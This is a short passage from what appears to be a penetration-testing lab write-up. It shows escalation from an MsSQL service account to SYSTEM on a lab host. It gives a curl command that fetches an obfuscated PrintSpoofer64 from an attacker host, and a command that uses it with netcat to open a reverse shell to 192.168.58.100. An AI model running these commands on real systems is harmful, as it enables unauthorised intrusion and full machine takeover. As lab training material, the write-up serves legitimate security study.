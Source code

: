 <figure><img src="../.gitbook/assets/Pasted image 20240306145245.png" alt=""><figcaption></figcaption></figure>

### **From MsSQL server to Web.Academy.Ninja.Lan**

_From service to System_ Create a obfuscated version of printspoofer64 and download it

```powershell
curl -o printspoofer64.exe http://192.168.58.100/PrintSpoofer64.exe
```

now upload netcat also and use it to open a reverse shell as system

{% code overflow="wrap" %}
```powershell
./printspoofer64.exe -i -c powershell.exe -c "C:\Users\Public\nc64.exe 192.168.58.100 4422 -e powershell.exe"
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20240313145143.png" alt=""><figcaption></figcaption></figure>

### &#x20;_System to Web.Academy.Ninja.Lan_&#x20;
